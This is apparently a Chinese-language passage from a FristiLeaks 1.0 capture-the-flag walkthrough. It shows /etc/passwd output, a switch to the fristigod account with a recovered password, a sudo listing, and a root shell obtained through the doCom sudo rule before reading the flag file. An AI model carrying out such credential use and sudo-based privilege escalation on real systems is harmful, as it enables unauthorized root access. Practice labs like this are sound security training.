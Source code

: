 ```
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
vboxadd:x:498:1::/var/run/vboxadd:/bin/false
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
fristi:x:503:100::/var/www:/sbin/nologin
```

测试`fristigod/LetThereBeFristi!`登录成功

```
bash-4.1$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ whoami
whoami
fristigod
bash-4.1$ 
```

查看sudo支持命令

```
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

按照提示需要调用`fristi`用户`doCom`命令才可以提权。

```
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# whoami
whoami
root
bash-4.1# ls /root
ls /root
fristileaks_secrets.txt
bash-4.1# cat /root/LC_IDENTIFICATION
cat /root/LC_IDENTIFICATION
cat: /root/LC_IDENTIFICATION: No such file or directory
bash-4.1# cat /root/fristileaks_secrets.txt
cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```